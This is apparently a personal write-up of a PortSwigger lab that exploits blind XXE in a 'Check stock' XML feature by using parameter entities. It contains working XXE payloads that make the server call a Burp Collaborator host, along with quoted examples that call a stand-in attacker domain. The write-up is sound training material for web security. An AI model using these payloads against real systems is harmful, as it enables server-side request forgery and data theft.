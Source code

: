 # Blind XXE with out-of-band interaction via XML parameter entities | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities), you'll learn: Blind XXE with out-of-band interaction via XML parameter entities! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134058.png)

In here, we can view other products' details:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134109.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134124.png)

Also, in all products details, we can check the available stocks.

**Let's click on the "Check stock" button, and see the responses in Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134136.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134146.png)

**When we clicked that button, it'll send a POST request to `/product/stock`, with an XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

When we see XML data, it's worth to test XXE (XML external entity) injection, XPATH injection.

**In XXE injection, we can try to trigger an error to identify is there any XXE vulnerability:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        a
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134223.png)

When we parsed an invalid `productId`, it'll response us "Invalid product ID".

Now, we can also test **blind XXE**!

Blind XXE vulnerabilities arise where the application is vulnerable to [XXE injection](https://portswigger.net/web-security/xxe) but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

**Armed with above information, let's try to send the following payload to dectect blind XXE.**

- Go to Burp Suite's Collaborator and copy the payload:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134309.png)

- Send the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://ma0zo3vdlsichyoboecsqqt8azgr4is7.oastify.com"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134335.png)

However, we see this response:

> "Entities are not allowed for security reasons"

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```xml
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

**XML parameter entities payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % xxe SYSTEM "http://1aceoivsl7irhdoqotc7q5tnaeg74xsm.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>
        %xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134641.png)

- Burp Suite's Collaborator:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134659.png)

As you can see, we've **recieved 2 DNS lookups**, which means **the "Check stock" feature is indeed vulnerable to blind XXE injection**!!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134706.png)

# What we've learned:

1. Blind XXE with out-of-band interaction via XML parameter entities